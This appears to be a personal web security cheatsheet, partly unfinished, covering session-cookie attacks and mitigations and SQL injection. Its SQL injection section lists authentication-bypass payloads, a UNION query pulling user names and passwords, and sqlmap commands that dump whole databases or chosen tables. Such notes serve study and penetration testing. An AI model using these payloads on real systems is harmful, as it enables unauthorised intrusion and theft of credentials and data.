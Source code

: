 Web Application Security Cheatsheet - NORMAL
==============================================

## Table of Contents

- [Session Management](#session-management)  
- [Access Controls](#access-controls)  
- [Cross-Site Scripting (XSS)](#cross-site-scripting)  
- [SQL Injection](#sql-injection)  

## Session Management
---

**Summary**  

Anatomy of a session cookie:  
_REQUEST: Server -> Client_
![Server -> Client](Resources/Cookie1.png)  
_REQUEST: Client -> Server_  
![Client -> Server](Resources/Cookie2.png)  

**Exploitation**  

Session Creation:  
* Attack the PRNG (pseudo-number-generator) and generate my own token?
  * Perform a brute force attack if PRNG is weak / patterns can be inferred.
* Hijack a valid user session by stealing their token after they log in.  

Session Handling / Transfer / Usage:  
* Steal the user cookie via. XSS.
  * Mitigated by `HttpOnly` flag: instructs web browsers not to allow scripts to access cookies. via the DOM document.cookie object.
* Steal the user cookie via. redirection to an external page.  

Session Clean-Up:
* Check / change cookie expiration.  

XXS via. cookies:
* Insert XSS payload into cookie content.  

**Mitigation**  

Session Creation:
* New tokens should be issued on login / privilege change.  
* Don't use persistent cookies or cacheable cookies.
* Set `HttpOnly` flag.  

Session Handling / Transfer / Usage:  
* Perform server-side validation of a user's session.  
* Don't reveal session tokens in a URL parameter.  
* Disable web-browser cross-tab sessions.  

Session Clean-up:
* Destroy sessions tokens appropriately: implement token expiration, avoid token re-use.  
* Force session logout on web browser window close events.  

## Access Controls
---

**Summary**  


**Exploitation**  


**Mitigation**  


## Cross-Site Scripting
---

**Summary**

**Exploitation**

**Mitigation**


## SQL Injection
---  

More SQLi cheatsheets: http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

**Summary**  

`UNION` operator is used to combine the resulting set of 2 or more SELECT statements.
* e.g. `SELECT name FROM customers UNION SELECT name FROM suppliers`
* ^Combines customer and suppliers names in one table, displaying distinct rows only.
* `UNION ALL` is the same but displays all rows.  

**Exploitation**  

Authentication Bypass
```SQL
' or '1'='1
' UNION ALL SELECT CURRENT_USER, '1
' UNION ALL SELECT name,pass FROM users WHERE name="noone"--    # whitespace needed after -- comment
```

Sqlmap: Dump everything + level 4 tests + 10 threads.  
`python sqlmap.py -u https://example.com/?id=1 -a --level=4 --threads=10`  
Sqlmap: Dump a specific table within a database  
`python sqlmap.py -u https://example.com/?id=1 --dump -D DATABASE -T TABLENAME`  



**Mitigation**
